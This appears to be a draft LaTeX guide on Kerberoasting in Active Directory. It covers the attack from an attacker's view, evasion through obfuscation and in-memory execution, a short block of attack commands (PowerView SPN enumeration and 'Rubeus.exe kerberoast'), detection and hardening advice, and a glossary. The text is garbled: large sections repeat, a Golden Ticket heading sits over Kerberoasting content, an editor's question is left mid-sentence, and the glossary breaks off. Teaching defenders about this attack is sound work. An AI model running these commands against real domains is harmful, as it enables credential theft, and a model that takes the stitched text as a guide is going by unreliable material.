Once a service account is compromised, the attacker can use it for various purposes depending on its permissions. They might access file shares, escalate privileges via token impersonation, or pivot to systems that trust the compromised service. If the service account is a member of high-privileged groups like Domain Admins: game over. The attacker can achieve full domain compromise. Even lower-privileged accounts can be leveraged for lateral movement. Persistence, or further exploitation. They’re also commonly referred to as “low hanging fruit.”

Overall, Kerberoasting is a powerful, low-noise technique that exploits a design feature of Kerberos and Active Directory. It doesn’t rely on zero-day exploits or advanced malware, but rather on predictable human behavior, misconfigurations, and weak operational security and hygiene. For red teamers, it’s an essential tactic in the toolkit; for defenders, it’s a reminder that strong password policies, continuous monitoring, and proper SPN hygiene are not optional - they are critical defense mechanisms.

The success of Kerberoasting as a method lies in its simplicity and stealth. Unlike more aggressive tactics like password spraying or account lockout attacks, Kerberoasting plays by the rules of the environment. It uses legitimate user accounts, standard LDAP and Kerberos protocols, and offline cracking to bypass many traditional security controls. As such, it will remain a preferred method of attack until defenders fully implement protections like managed service accounts, ticket encryption hardening, and fine-grained anomaly detection across the authentication stack.

\subsubsection{\textbf{Tools}}

Rubeus

Impacket

PowerView

\subsubsection{\textbf{Attack Code}}

Enumerate service accounts with SPNs

Import-Module .\textbackslash{}PowerView.ps1

Get-DomainUser -SPN

Request TGS ticket

Rubeus.exe kerberoast

\subsubsection{\textbf{Defense}}

From a defender’s view, Kerberoasting presents one of the most persistent and underestimated threats to the integrity of Active Directory (AD) environments. Unlike many attack techniques that require elevated privileges or complex chains of exploits, Kerberoasting thrives on a fundamental design characteristic of the Kerberos protocol - namely, the ability for any authenticated domain user to request service tickets for accounts with Service Principal Names (SPNs). The inherent permissiveness of this mechanism places the burden of defense squarely on the configuration of your environment, the strength of service account credentials, and the visibility into \textbf{ticketing behaviors.(what to look for) if this is a known flaw within kerberos how come no workaround? Why does this attack persist?}

The first and most critical defense against Kerberoasting is enforcing strong, unique, and regularly rotated passwords for service accounts. Service accounts, by their nature, are designed to run critical services and are often granted elevated privileges, sometimes even domain-level access. In many environments, these accounts are created and forgotten, their passwords unchanged for years. This stagnation is a goldmine for attackers, as static passwords can be easily cracked offline given enough time and processing power. Defenders must implement a policy that treats service accounts as high-value assets, enforcing minimum password lengths of 25 characters or more, incorporating randomization, and rotating them periodically using automated vaulting solutions.

Managed Service Accounts (MSAs) and Group Managed Service Accounts (gMSAs) offer a modern alternative to traditional service accounts and provide automated password management and rotation. By transitioning critical services to use gMSAs, defenders can effectively eliminate the risks associated with static passwords. gMSAs store their credentials in a secure way and update them automatically, making them resistant to Kerberoasting by design; however, the adoption of gMSAs requires planning, application compatibility checks, and rigorous access control.

Beyond password policies, defenders must invest in proactive detection and alerting mechanisms. Although requesting a service ticket (TGS) is a normal operation within Kerberos, large volumes of such requests, particularly for unusual SPNs or from unexpected accounts, can be indicative of reconnaissance activity or ongoing Kerberoasting attempts. Security teams should deploy SIEM (Security Information and Event Management) solutions capable of parsing Kerberos logs (Event ID 4769) and correlating abnormal request patterns. Baselines should be established to differentiate between legitimate service usage and anomalous activity originating from user workstations.

Modern detection solutions, including Endpoint Detection and Response (EDR) tools and User and Entity Behavior Analytics (UEBA), are well-suited to detect Kerberoasting. These tools leverage machine learning models and behavioral baselines to flag deviations such as a standard user suddenly requesting multiple TGS tickets within a short time frame. When implemented effectively, these tools can provide early warnings before an attacker has a chance to extract and crack the tickets.

Encryption protocol hardening is another underutilized yet crucial layer of defense. By default, Kerberos supports various encryption types, including RC4, which is known to be weak and significantly easier to brute-force compared to AES-128 or AES-256. Defenders should audit their domain and disable support for RC4 where possible, forcing the use of stronger encryption for ticket issuance. Group Policy Objects (GPOs) can be used to configure Kerberos encryption types on both domain controllers and clients, thereby reducing the feasibility of successful offline cracking.

Reducing the attack surface area also involves limiting the number of accounts that are associated with SPNs. Every service account tied to an SPN is a potential Kerberoasting target. Conducting a periodic audit of all SPNs within the domain allows defenders to identify and eliminate unnecessary service account exposures. Furthermore, privilege minimization should be enforced so that service accounts are only granted the specific rights required to perform their designated functions.

Credential hygiene also extends to monitoring service account usage. Defenders should ensure that service accounts are not used for interactive logons or daily administrative tasks. Every interactive login event tied to a service account increases its exposure and the likelihood of its credentials being harvested from memory. GPO settings can be configured to deny logon locally or via Remote Desktop Services for service accounts, thereby reducing the risk of credential theft through memory scraping tools like Mimikatz.

In addition to technical controls, defenders must foster a culture of operational security awareness. Security teams should educate IT administrators and developers on the risks of misconfigured service accounts and the importance of using secure development practices. For example, credentials should never be hard-coded into scripts or stored in plaintext configuration files. Access to password vaults should be audited and restricted, and change management processes should include security reviews for new service deployments.

Network segmentation and tiered administrative models can also play a significant role in mitigating the lateral movement opportunities granted by Kerberoasting. If an attacker compromises a service account, their ability to escalate privileges or access sensitive systems should be constrained by segmentation policies and just-in-time access models. Microsoft’s Tiered Access Model is a proven approach to structuring administrative privileges in a way that isolates critical assets and limits credential exposure.

Logging and auditing must be enabled and centralized for maximum visibility. While Windows event logs provide a wealth of information, their value is only realized when they are aggregated, normalized, and correlated. Centralized log management platforms should be configured to retain security logs for a minimum of 12 months, allowing for forensic analysis in the event of a breach. Event correlation rules should be tuned to detect not just one-off anomalies, but also slow-and-low patterns indicative of stealthy attackers.

For advanced environments, defenders may consider implementing honeypots or decoy SPNs as detection mechanisms. These decoys act as canaries—if a TGS request is made for a nonexistent or unused SPN, it can serve as a high-confidence indicator of malicious activity. These honeypots can be integrated with automated response systems to isolate the offending workstation or account before further damage is done.

Security operations should also regularly simulate Kerberoasting attacks as part of red teaming or purple teaming exercises. These simulations not only validate existing defenses but also train detection and response teams to recognize the signals of a Kerberoasting attempt. Tools like Rubeus and PowerView can be safely used in a controlled environment to emulate adversary behavior, enabling continuous improvement of detection capabilities.

Ultimately, defending against Kerberoasting is not about a single tool or configuration. It requires a multi-layered strategy that incorporates password hygiene, secure account management, proactive monitoring, threat hunting, and organizational discipline. By addressing each layer, defenders can close the window of opportunity that Kerberoasting relies on and ensure that their AD infrastructure remains resilient against credential theft and privilege escalation attacks.

Even in the best-defended environments, breaches can still occur. Therefore, having an incident response plan that specifically addresses credential theft scenarios is essential. This plan should include steps for identifying compromised accounts, rotating passwords, isolating affected systems, and conducting a root cause analysis. By practicing incident response procedures in advance, organizations can significantly reduce recovery times and limit the impact of a successful Kerberoasting attack.

In conclusion, Kerberoasting remains a potent threat due to its stealth, simplicity, and reliance on inherent features of Active Directory; however, defenders are not powerless. Through diligent configuration, continuous monitoring, and layered security practices, the threat can be contained and significantly diminished. The key is not to treat Kerberoasting as a rare edge case, but rather as a baseline threat that must be accounted for in every enterprise security strategy.

\subsection{\textbf{Glossary}}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{A} \\
\hline

\end{tabular}

\end{table}

\textbf{Assume Breach}

"Assume breach" is a security principle and a mindset that dictates that a security system should be designed and operated under the assumption that a breach has already occurred or will inevitably occur. It emphasizes proactive measures to detect, respond to, and mitigate the impact of breaches rather than solely focusing on preventing them. This approach is a core component of Zero Trust Architecture, which aims to minimize the impact of potential breaches by limiting access and trust within the network.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{B} \\
\hline

\end{tabular}

\end{table}

\textbf{Backdoor}

A backdoor is a secret method of bypassing normal authentication or security measures to gain access to a computer system, network, or application. It's like a hidden entrance that allows attackers to bypass security controls and maintain persistent access.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{C} \\
\hline

\end{tabular}

\end{table}

\textbf{Canary Tokens}

Canary tokens are digital tripwires used in cybersecurity to detect unauthorized access to sensitive data or systems. They are essentially decoy files, URLs, or API keys strategically placed within a network or application, designed to trigger an alert when accessed by an attacker or malicious actor. This early warning system helps defenders identify potential breaches and respond quickly.

\textbf{Credential Hygiene}

Credential hygiene refers to the practices and processes involved in managing and protecting authentication credentials like passwords, tokens, and keys. It's crucial for maintaining security across various systems and applications, particularly in CI/CD pipelines and SaaS environments. Effective credential hygiene minimizes the risk of unauthorized access, data breaches, and other security incidents.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{D} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{E} \\
\hline

\end{tabular}

\end{table}

\textbf{External Trust}

An external trust in Active Directory is a trust relationship established between two domains in different forests. It allows users in one domain to access resources in the other domain, even though the domains are not part of the same forest. This type of trust is often used when there is a need for resource sharing between organizations with separate Active Directory environments.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{F} \\
\hline

\end{tabular}

\end{table}

\textbf{Forest Trust}

Forest trusts in Active Directory are a type of trust relationship established between the root domains of two separate Active Directory forests. They allow users and resources in one forest to be accessed by users in the other forest, effectively creating a bridge between the two separate domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{G} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{H} \\
\hline

\end{tabular}

\end{table}

\textbf{HONEYTOKENS}

Honeytokens are decoy elements, like fake data or credentials, strategically placed within a system to detect unauthorized access and malicious activity. They act as tripwires, triggering alerts when accessed by attackers, thus revealing their presence and methods. Unlike honeypots, which are entire systems, honeytokens are small, discrete components designed to be part of real systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{I} \\
\hline

\end{tabular}

\end{table}

\textbf{Interdomain}

Interdomain refers to something existing or occurring between two or more domains. In networking, it specifically relates to routing traffic between different autonomous systems (AS). It can also refer to courses that integrate knowledge from two different domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{J} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{K} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{L} \\
\hline

\end{tabular}

\end{table}

\textbf{Local Security Authority (LSA)}

The Local Security Authority (LSA) is a security subsystem within the Windows operating system that manages and enforces local security policies. It's responsible for crucial tasks like authenticating users during sign-in, verifying passwords, and handling access tokens. Essentially, the LSA acts as a gatekeeper, controlling access to resources and ensuring only authorized users and processes can interact with the system. 

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{M} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{N} \\
\hline

\end{tabular}

\end{table}

\textbf{NTDS.dit File}

NTDS.dit, short for New Technology Directory Services Directory Information Tree, is the central database for Microsoft Active Directory Domain Services (AD DS). It's a critical component that stores all the information about objects within an Active Directory domain, including users, groups, computers, and their associated attributes, including password hashes. This file essentially powers authentication and authorization across an organization's network, processing requests, storing password information securely, and managing group policy settings.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{O} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{P} \\
\hline

\end{tabular}

\end{table}

\textbf{Protocol Stack}

A protocol stack, also known as a network stack, is a hierarchical set of communication protocols organized into layers. Each layer performs a specific function and relies on the services of the layer below it, while providing services to the layer above. This layered approach simplifies the design, implementation, and troubleshooting of complex network communication systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Q} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{R} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{S} \\
\hline

\end{tabular}

\end{table}

\textbf{Service Principal Name (SPN)}

A Service Principal Name (SPN) is a unique identifier for a service instance, used in Active Directory for Kerberos authentication. It links a service to a specific service account, enabling clients to locate and authenticate the service. SPNs are crucial for services like SQL Server, IIS, and others that use Kerberos for secure communication.

\textbf{Signature Validation}

Kerberos signature validation is a crucial security mechanism within the Kerberos authentication protocol, ensuring the integrity and authenticity of messages and tickets exchanged during authentication and authorization processes. It involves verifying digital signatures on various Kerberos components, primarily the Privileged Attribute Certificate (PAC), to prevent malicious tampering and unauthorized privilege escalation.

\textbf{Shadow Domain Admin}

A shadow domain admin refers to a user account that possesses administrator-level privileges within a domain, but is not officially part of the designated domain administrator group. These accounts often go unnoticed by security teams because they don't appear in standard administrative listings, making them a potential security risk.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{T} \\
\hline

\end{tabular}

\end{table}

\textbf{Total Domain Persistence}

Total domain persistence refers to an attacker's ability to maintain long-term, uninterrupted control over a compromised network or domain, even in the face of detection and attempts to remove them.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{U} \\
\hline

\end{tabular}

\end{table}

\textbf{User and Entity Behavior Analytics (UEBA)}

User and Entity Behavior Analytics (UEBA) is a cybersecurity solution that uses machine learning and data analytics to detect suspicious activities by analyzing the behavior of users and other entities within an organization's network. By establishing baseline behaviors, UEBA identifies anomalies that may indicate security threats, such as insider threats or compromised accounts.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{V} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{W} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{X} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Y} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Z} \\
\hline

\end{tabular}

\end{table}

 

\textbf{Kerberoasting}

\textit{ABC}

Section 1: Attacker’s View

\section{\textbf{Understanding Golden Ticket Attacks}}

\begin{table}
\justifying

\begin{tabular}{| l | l |}
\hline
\textbf{What It Is in Shortform:} & \textbf{Tools Used:} \\
\hline
\textit{Golden Ticket attacks use a forged Kerberos Ticket Granting Ticket (TGT) to gain unrestricted access or resources within an Active Directory domain.} &  \\
\hline

\end{tabular}

\end{table}

\subsection{\textbf{1. Kerberoasting}}

Abuse of the Kerberos authentication protocol to extract \textit{Ticket Granting Service} \textit{(TGS) tickets} that can be brute-forced offline. From an attacker’s view, abusing the Kerberos authentication protocol through a technique commonly referred to as “Kerberoasting” represents a high-value, low-risk method for obtaining domain credentials. This attack targets service accounts within a Windows Active Directory (AD) environment, specifically accounts associated with \textit{Service Principal Names (SPNs)}. These SPNs are used by Kerberos to identify services on a network, and because of how the Kerberos ticketing system works, attackers can extract encrypted service tickets, which are then susceptible to offline brute-force or dictionary attacks. By doing so, an attacker can potentially recover the plaintext passwords of privileged service accounts without triggering alarms on the domain or service being attacked.

To execute a Kerberoasting attack, you must first gain access to a standard user account within the domain. This access can come from phishing, exploiting weak passwords, or lateral movement from an already compromised system. Once you establish toehold, you use that authenticated context to enumerate SPNs via LDAP queries. Tools like \textbf{PowerView, Rubeus}, and \textbf{Impacket’s getSPNs.py} can automate this process, listing all service accounts with registered SPNs. This step is critical, as only accounts tied to SPNs will have the required Ticket Granting Service (TGS) tickets that can be requested and subsequently cracked.

Once a list of target SPNs is obtained, you next send a request to the \textit{Key Distribution Center (KDC)}, asking for a TGS for each of the SPNs. Because you’re authenticated, the KDC will respond with the requested tickets, encrypting them with the hash of the target service account’s password. These TGS tickets are then saved locally by the attacker for offline analysis. This offline nature of the cracking process is key to the attack’s stealth, as it avoids repeated login attempts that would otherwise trigger account lockouts or alerts in most monitoring solutions.

At this point, the attacker uses tools like \textbf{Hashcat} or \textbf{John the Ripper (JtR)} to brute-force the service ticket. These tools attempt to guess the service account password by comparing hashed guesses with the encrypted portion of the TGS ticket. If the password is weak or reused across environments, it’s only a matter of time before the correct plaintext password is recovered. Once the password is cracked, the attacker can use it to impersonate the service account, potentially elevating privileges or gaining access to sensitive systems and data.

Furthermore, service accounts are often overlooked in routine security audits and may have passwords that are never changed or managed by password vaulting solutions. They may also possess elevated privileges, such as local administrator access on servers, access to databases, or even domain admin rights in misconfigured environments. This makes Kerberoasting particularly dangerous. An attacker who successfully compromises such an account gains not just persistence, but also lateral movement capabilities and potential privilege escalation routes.

Many organizations are unaware that service accounts with SPNs are exposed in this way by default. Kerberos is designed to be a secure authentication protocol, but the implementation within Active Directory allows for these tickets to be retrieved without special permissions. Moreover, because requesting a TGS is a normal operation in AD, these requests typically do not raise red flags unless defenders have specialized monitoring and anomaly detection systems in place.

This lack of visibility makes Kerberoasting an ideal for stealthy attackers who want to avoid detection while gathering credentials.

One tactic attackers often use is to prioritize service accounts that use the RC4 encryption for their Kerberos tickets. While newer versions of Windows support stronger encryption types, RC4 remains widely used for compatibility, and it’s significantly easier to brute-force compared to AES-based tickets. Attackers can specify the encryption types they prefer when requesting TGS tickets, further increasing their success rate when targeting environments that haven’t fully deprecated legacy encryption standards.

From a campaign planning perspective, Kerberoasting is often employed in the mid-to-late stages of a network intrusion. After initial access and reconnaissance, the attacker uses Kerberoasting to pivot deeper into the network, compromise higher-valued targets or establish additional backdoors. The technique scales well: once a single domain user is compromised, an attacker can enumerate and request TGS tickets for dozens or even hundreds of SPNs, all without triggering defenses if the environment lacks proper telemetry.

In some cases, attackers may combine Kerberoasting with other techniques such as \textit{AS-REP Roasting} or \textit{Golden Ticket} attacks. AS-REP roasting is used against accounts that do not require Kerberos pre-authentication, while Golden Tickets involve forging TGTs using the krbtgt account hash. When used together, these methods can provide a comprehensive path for total domain compromise, especially if the target organization lacks segmentation, password hygiene, or effective detection capabilities.

Successful Kerberoasting depends heavily on poor password policies. If service accounts have long, complex, and regularly rotated passwords, brute-forcing becomes computationally expensive and time-prohibitive; however, in many environments, attackers find that service account passwords are rarely changed and often follow predictable naming conventions. This makes dictionary attacks, particularly those using known password leaks or organizational naming schemes, highly effective.

Additionally, attackers may use obfuscation techniques to hide their Kerberoasting activities. For example, rather than using tools like Rubeus in cleartext, they may obfuscate the binaries using tools like Invoke-Obfuscation or run them from memory using reflective \textit{DLL (Dynamic Link Library)} injection. This reduces the likelihood that antivirus or \textit{Endpoint Detection and Response (EDR)} tools will detect the behavior. Some attackers will even automate the attack process with a larger script or \textit{C2 (Command and Control) framework} like \textbf{Cobalt Strike} or \textbf{Empire}, blending Kerberoasting into a multi-pronged attack campaign.

Once a service account is compromised, the attacker can use it for various purposes depending on its permissions. They might access file shares, escalate privileges via token impersonation, or pivot to systems that trust the compromised service. If the service account is a member of high-privileged groups like Domain Admins: game over. The attacker can achieve full domain compromise. Even lower-privileged accounts can be leveraged for lateral movement. Persistence, or further exploitation. They’re also commonly referred to as “low hanging fruit.”

Overall, Kerberoasting is a powerful, low-noise technique that exploits a design feature of Kerberos and Active Directory. It doesn’t rely on zero-day exploits or advanced malware, but rather on predictable human behavior, misconfigurations, and weak operational security and hygiene. For red teamers, it’s an essential tactic in the toolkit; for defenders, it’s a reminder that strong password policies, continuous monitoring, and proper SPN hygiene are not optional - they are critical defense mechanisms.

The success of Kerberoasting as a method lies in its simplicity and stealth. Unlike more aggressive tactics like password spraying or account lockout attacks, Kerberoasting plays by the rules of the environment. It uses legitimate user accounts, standard LDAP and Kerberos protocols, and offline cracking to bypass many traditional security controls. As such, it will remain a preferred method of attack until defenders fully implement protections like managed service accounts, ticket encryption hardening, and fine-grained anomaly detection across the authentication stack.

\subsubsection{\textbf{Tools}}

Rubeus

Impacket

PowerView

\subsubsection{\textbf{Attack Code}}

Enumerate service accounts with SPNs

Import-Module .\textbackslash{}PowerView.ps1

Get-DomainUser -SPN

Request TGS ticket

Rubeus.exe kerberoast

\subsubsection{Defense}

From a defender’s view, Kerberoasting presents one of the most persistent and underestimated threats to the integrity of Active Directory (AD) environments. Unlike many attack techniques that require elevated privileges or complex chains of exploits, Kerberoasting thrives on a fundamental design characteristic of the Kerberos protocol - namely, the ability for any authenticated domain user to request service tickets for accounts with Service Principal Names (SPNs). The inherent permissiveness of this mechanism places the burden of defense squarely on the configuration of your environment, the strength of service account credentials, and the visibility into \textbf{ticketing behaviors.(what to look for) if this is a known flaw within kerberos how come no workaround? Why does this attack persist?}

The first and most critical defense against Kerberoasting is enforcing strong, unique, and regularly rotated passwords for service accounts. Service accounts, by their nature, are designed to run critical services and are often granted elevated privileges, sometimes even domain-level access. In many environments, these accounts are created and forgotten, their passwords unchanged for years. This stagnation is a goldmine for attackers, as static passwords can be easily cracked offline given enough time and processing power. Defenders must implement a policy that treats service accounts as high-value assets, enforcing minimum password lengths of 25 characters or more, incorporating randomization, and rotating them periodically using automated vaulting solutions.

Managed Service Accounts (MSAs) and Group Managed Service Accounts (gMSAs) offer a modern alternative to traditional service accounts and provide automated password management and rotation. By transitioning critical services to use gMSAs, defenders can effectively eliminate the risks associated with static passwords. gMSAs store their credentials in a secure way and update them automatically, making them resistant to Kerberoasting by design; however, the adoption of gMSAs requires planning, application compatibility checks, and rigorous access control.

Beyond password policies, defenders must invest in proactive detection and alerting mechanisms. Although requesting a service ticket (TGS) is a normal operation within Kerberos, large volumes of such requests, particularly for unusual SPNs or from unexpected accounts, can be indicative of reconnaissance activity or ongoing Kerberoasting attempts. Security teams should deploy SIEM (Security Information and Event Management) solutions capable of parsing Kerberos logs (Event ID 4769) and correlating abnormal request patterns. Baselines should be established to differentiate between legitimate service usage and anomalous activity originating from user workstations.

Modern detection solutions, including Endpoint Detection and Response (EDR) tools and User and Entity Behavior Analytics (UEBA), are well-suited to detect Kerberoasting. These tools leverage machine learning models and behavioral baselines to flag deviations such as a standard user suddenly requesting multiple TGS tickets within a short time frame. When implemented effectively, these tools can provide early warnings before an attacker has a chance to extract and crack the tickets.

Encryption protocol hardening is another underutilized yet crucial layer of defense. By default, Kerberos supports various encryption types, including RC4, which is known to be weak and significantly easier to brute-force compared to AES-128 or AES-256. Defenders should audit their domain and disable support for RC4 where possible, forcing the use of stronger encryption for ticket issuance. Group Policy Objects (GPOs) can be used to configure Kerberos encryption types on both domain controllers and clients, thereby reducing the feasibility of successful offline cracking.

Reducing the attack surface area also involves limiting the number of accounts that are associated with SPNs. Every service account tied to an SPN is a potential Kerberoasting target. Conducting a periodic audit of all SPNs within the domain allows defenders to identify and eliminate unnecessary service account exposures. Furthermore, privilege minimization should be enforced so that service accounts are only granted the specific rights required to perform their designated functions.

Credential hygiene also extends to monitoring service account usage. Defenders should ensure that service accounts are not used for interactive logons or daily administrative tasks. Every interactive login event tied to a service account increases its exposure and the likelihood of its credentials being harvested from memory. GPO settings can be configured to deny logon locally or via Remote Desktop Services for service accounts, thereby reducing the risk of credential theft through memory scraping tools like Mimikatz.

In addition to technical controls, defenders must foster a culture of operational security awareness. Security teams should educate IT administrators and developers on the risks of misconfigured service accounts and the importance of using secure development practices. For example, credentials should never be hard-coded into scripts or stored in plaintext configuration files. Access to password vaults should be audited and restricted, and change management processes should include security reviews for new service deployments.

Network segmentation and tiered administrative models can also play a significant role in mitigating the lateral movement opportunities granted by Kerberoasting. If an attacker compromises a service account, their ability to escalate privileges or access sensitive systems should be constrained by segmentation policies and just-in-time access models. Microsoft’s Tiered Access Model is a proven approach to structuring administrative privileges in a way that isolates critical assets and limits credential exposure.

Logging and auditing must be enabled and centralized for maximum visibility. While Windows event logs provide a wealth of information, their value is only realized when they are aggregated, normalized, and correlated. Centralized log management platforms should be configured to retain security logs for a minimum of 12 months, allowing for forensic analysis in the event of a breach. Event correlation rules should be tuned to detect not just one-off anomalies, but also slow-and-low patterns indicative of stealthy attackers.

For advanced environments, defenders may consider implementing honeypots or decoy SPNs as detection mechanisms. These decoys act as canaries—if a TGS request is made for a nonexistent or unused SPN, it can serve as a high-confidence indicator of malicious activity. These honeypots can be integrated with automated response systems to isolate the offending workstation or account before further damage is done.

Security operations should also regularly simulate Kerberoasting attacks as part of red teaming or purple teaming exercises. These simulations not only validate existing defenses but also train detection and response teams to recognize the signals of a Kerberoasting attempt. Tools like Rubeus and PowerView can be safely used in a controlled environment to emulate adversary behavior, enabling continuous improvement of detection capabilities.

Ultimately, defending against Kerberoasting is not about a single tool or configuration. It requires a multi-layered strategy that incorporates password hygiene, secure account management, proactive monitoring, threat hunting, and organizational discipline. By addressing each layer, defenders can close the window of opportunity that Kerberoasting relies on and ensure that their AD infrastructure remains resilient against credential theft and privilege escalation attacks.

Even in the best-defended environments, breaches can still occur. Therefore, having an incident response plan that specifically addresses credential theft scenarios is essential. This plan should include steps for identifying compromised accounts, rotating passwords, isolating affected systems, and conducting a root cause analysis. By practicing incident response procedures in advance, organizations can significantly reduce recovery times and limit the impact of a successful Kerberoasting attack.

In conclusion, Kerberoasting remains a potent threat due to its stealth, simplicity, and reliance on inherent features of Active Directory; however, defenders are not powerless. Through diligent configuration, continuous monitoring, and layered security practices, the threat can be contained and significantly diminished. The key is not to treat Kerberoasting as a rare edge case, but rather as a baseline threat that must be accounted for in every enterprise security strategy.

\subsection{\textbf{Glossary}}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{A} \\
\hline

\end{tabular}

\end{table}

\textbf{Assume Breach}

"Assume breach" is a security principle and a mindset that dictates that a security system should be designed and operated under the assumption that a breach has already occurred or will inevitably occur. It emphasizes proactive measures to detect, respond to, and mitigate the impact of breaches rather than solely focusing on preventing them. This approach is a core component of Zero Trust Architecture, which aims to minimize the impact of potential breaches by limiting access and trust within the network.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{B} \\
\hline

\end{tabular}

\end{table}

\textbf{Backdoor}

A backdoor is a secret method of bypassing normal authentication or security measures to gain access to a computer system, network, or application. It's like a hidden entrance that allows attackers to bypass security controls and maintain persistent access.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{C} \\
\hline

\end{tabular}

\end{table}

\textbf{Canary Tokens}

Canary tokens are digital tripwires used in cybersecurity to detect unauthorized access to sensitive data or systems. They are essentially decoy files, URLs, or API keys strategically placed within a network or application, designed to trigger an alert when accessed by an attacker or malicious actor. This early warning system helps defenders identify potential breaches and respond quickly.

\textbf{Credential Hygiene}

Credential hygiene refers to the practices and processes involved in managing and protecting authentication credentials like passwords, tokens, and keys. It's crucial for maintaining security across various systems and applications, particularly in CI/CD pipelines and SaaS environments. Effective credential hygiene minimizes the risk of unauthorized access, data breaches, and other security incidents.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{D} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{E} \\
\hline

\end{tabular}

\end{table}

\textbf{External Trust}

An external trust in Active Directory is a trust relationship established between two domains in different forests. It allows users in one domain to access resources in the other domain, even though the domains are not part of the same forest. This type of trust is often used when there is a need for resource sharing between organizations with separate Active Directory environments.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{F} \\
\hline

\end{tabular}

\end{table}

\textbf{Forest Trust}

Forest trusts in Active Directory are a type of trust relationship established between the root domains of two separate Active Directory forests. They allow users and resources in one forest to be accessed by users in the other forest, effectively creating a bridge between the two separate domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{G} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{H} \\
\hline

\end{tabular}

\end{table}

\textbf{HONEYTOKENS}

Honeytokens are decoy elements, like fake data or credentials, strategically placed within a system to detect unauthorized access and malicious activity. They act as tripwires, triggering alerts when accessed by attackers, thus revealing their presence and methods. Unlike honeypots, which are entire systems, honeytokens are small, discrete components designed to be part of real systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{I} \\
\hline

\end{tabular}

\end{table}

\textbf{Interdomain}

Interdomain refers to something existing or occurring between two or more domains. In networking, it specifically relates to routing traffic between different autonomous systems (AS). It can also refer to courses that integrate knowledge from two different domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{J} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{K} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{L} \\
\hline

\end{tabular}

\end{table}

\textbf{Local Security Authority (LSA)}

The Local Security Authority (LSA) is a security subsystem within the Windows operating system that manages and enforces local security policies. It's responsible for crucial tasks like authenticating users during sign-in, verifying passwords, and handling access tokens. Essentially, the LSA acts as a gatekeeper, controlling access to resources and ensuring only authorized users and processes can interact with the system. 

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{M} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{N} \\
\hline

\end{tabular}

\end{table}

\textbf{NTDS.dit File}

NTDS.dit, short for New Technology Directory Services Directory Information Tree, is the central database for Microsoft Active Directory Domain Services (AD DS). It's a critical component that stores all the information about objects within an Active Directory domain, including users, groups, computers, and their associated attributes, including password hashes. This file essentially powers authentication and authorization across an organization's network, processing requests, storing password information securely, and managing group policy settings.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{O} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{P} \\
\hline

\end{tabular}

\end{table}

\textbf{Protocol Stack}

A protocol stack, also known as a network stack, is a hierarchical set of communication protocols organized into layers. Each layer performs a specific function and relies on the services of the layer below it, while providing services to the layer above. This layered approach simplifies the design, implementation, and troubleshooting of complex network communication systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Q} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{R} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{S} \\
\hline

\end{tabular}

\end{table}

\textbf{Service Principal Name (SPN)}

A Service Principal Name (SPN) is a unique identifier for a service instance, used in Active Directory for Kerberos authentication. It links a service to a specific service account, enabling clients to locate and authenticate the service. SPNs are crucial for services like SQL Server, IIS, and others that use Kerberos for secure communication.

\textbf{Signature Validation}

Kerberos signature validation is a crucial security mechanism within the Kerberos authentication protocol, ensuring the integrity and authenticity of messages and tickets exchanged during authentication and authorization processes. It involves verifying digital signatures on various Kerberos components, primarily the Privileged Attribute Certificate (PAC), to prevent malicious tampering and unauthorized privilege escalation.

\textbf{Shadow Domain Admin}

